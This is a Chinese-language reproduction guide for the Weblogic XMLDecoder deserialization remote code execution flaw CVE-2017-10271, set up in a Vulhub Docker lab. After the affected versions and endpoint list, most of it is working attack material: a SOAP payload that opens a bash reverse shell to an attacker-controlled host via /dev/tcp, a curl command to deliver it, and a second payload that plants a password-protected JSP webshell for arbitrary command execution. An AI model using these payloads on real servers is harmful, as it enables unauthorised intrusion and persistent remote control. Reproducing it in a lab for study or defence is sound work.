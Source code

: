 # Weblogic XMLDecoder 远程代码执行漏洞 CVE-2017-10271

## 漏洞描述

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

## 漏洞影响

```
Weblogic 10.3.6.0.0
Weblogic 12.1.3.0.0
Weblogic 12.2.1.0.0
Weblogic 12.2.1.2.0
```

## 环境搭建

Vulhub 搭建 weblogic 10.3.6.0 环境：

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2017-10271
docker-compose up -d
```

启动完成后访问`http://your-vps-ip:7001/console`可以看到管理界面。

![](images/Weblogic%20XMLDecoder%20反序列化远程代码执行漏洞%20CVE-2019-2725/image-20240422141240591.png)

## 漏洞复现

访问 `http://your-ip:7001/wls-wsat/CoordinatorPortType`，若存在，则可能存在漏洞。其他可利用 URL：

```plain
/wls-wsat/CoordinatorPortType
/wls-wsat/RegistrationPortTypeRPC
/wls-wsat/ParticipantPortType
/wls-wsat/RegistrationRequesterPortType
/wls-wsat/CoordinatorPortType11
/wls-wsat/RegistrationPortTypeRPC11
/wls-wsat/ParticipantPortType11
/wls-wsat/RegistrationRequesterPortType11
```

![](images/Weblogic%20XMLDecoder%20远程代码执行漏洞%20CVE-2017-10271/image-20240422141841164.png)

将以下 xml 数据保存为 poc.xml：

```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/<your-vps-ip>/<your-vps-port> 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

使用 curl 以 post 方法上传 poc.xml，反弹shell：

```shell
curl -v -X POST -H "Content-Type: text/xml" --data @poc.xml "http://your-ip:7001/wls-wsat/CoordinatorPortType"
```

![](images/Weblogic%20XMLDecoder%20远程代码执行漏洞%20CVE-2017-10271/image-20240422142240394.png)

![](images/Weblogic%20XMLDecoder%20远程代码执行漏洞%20CVE-2017-10271/image-20240422142305482.png)

也可以写入 webshell：

```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% if("023".equals(request.getParameter("pwd"))){ java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream(); int a = -1; byte[] b = new byte[2048]; out.print("<pre>"); while((a=in.read(b))!=-1){ out.println(new String(b)); } out.print("</pre>"); } %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

访问 webshell：

```
http://your-ip:7001/bea_wls_internal/test.jsp?pwd=023&i=whoami
```

![](images/Weblogic%20XMLDecoder%20远程代码执行漏洞%20CVE-2017-10271/image-20240422142615570.png)
